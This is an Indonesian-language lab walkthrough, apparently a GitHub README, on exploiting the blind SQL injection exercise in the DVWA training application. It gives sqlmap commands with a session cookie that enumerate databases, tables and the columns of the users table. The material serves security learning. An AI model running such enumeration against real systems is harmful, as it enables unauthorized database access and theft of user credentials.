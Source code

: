 <b> HOW TO SOLVE SQL INJECTION BLIND </b>


Sekarang kita coba menggunakan  
```
'1
```
 apakah vulnerable atau tidak
 
![Screenshot (464)](https://user-images.githubusercontent.com/118157585/216914220-44732cad-9ef5-48d2-a694-daf675c2651d.png)

dammmmn! ternyata vulnerable.

![Screenshot (465)](https://user-images.githubusercontent.com/118157585/216914282-690c2d67-87af-4de8-a98a-a38e345627c6.png)

nah sekarang saatnya kita copy link tersebut, untuk kita tes di tools <b><i> SQL Injection </i></b>

![Screenshot (467)](https://user-images.githubusercontent.com/118157585/216914420-1432de38-8c99-4103-b26b-ed528f4114c2.png)

sebelum ke <b><i> SQL Injection </i></b> kita cari tahu dulu PHPSESSID nya, yaitu dengan klik kanan pada tampilan dvwa SQLI Blind, llau klik inspect element, nah setelah itu klik storage.

![Screenshot (468)](https://user-images.githubusercontent.com/118157585/216914472-d1365172-f36a-4f67-b3fd-b78ce72bccf4.png)

nahhhh sekarang kita coba crack databases nya, ada apa ajasih disana. dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' --dbs
```

ternyata disana ada <b><i> * dvwa dan * information_scheme </i></b>.

![Screenshot (473)](https://user-images.githubusercontent.com/118157585/216918953-f94e854d-a85d-4602-b0b2-c8c0d89ba805.png)

sekarang kita lanjut untuk mencari tables nya, kita crack databases <b><i> dvwa </i></b> , dengan mengetikkan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' -D dvwa --tables
```

nah disana terdapat 2 tables yaitu <b><i> guestbook dan users </i></b>

![Screenshot (469)](https://user-images.githubusercontent.com/118157585/216914534-a11d21ed-488b-4cc2-964c-80d04f2316c6.png)

lalu sekarang kita lanjut untuk mencari columns nya dari tables kedua tersebut, tapi saya feeling columns yang penting berada di tables <b><i> users </i></b>.
jadi kita crack di tables <b><i> users </i></b> dengan menggunakan perintah :

```
sqlmap -u 'http://192.168.18.115/DVWA/vulnarebilities/sqli_blind/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=gg58gd3lp0rqeq3rftt96l1b3kq' -T users --columns
```

![Screenshot (470)](https://user-images.githubusercontent.com/118157585/216914627-66c0f0cc-8238-4fb1-9e14-3a5366b64288.png)
![Screenshot (471)](https://user-images.githubusercontent.com/118157585/216914738-07273ce5-2666-4607-89a5-e8390b9aa9c0.png)
![Screenshot (472)](https://user-images.githubusercontent.com/118157585/216914855-fea2c425-2fe1-4fad-8929-a3d3e1584747.png)
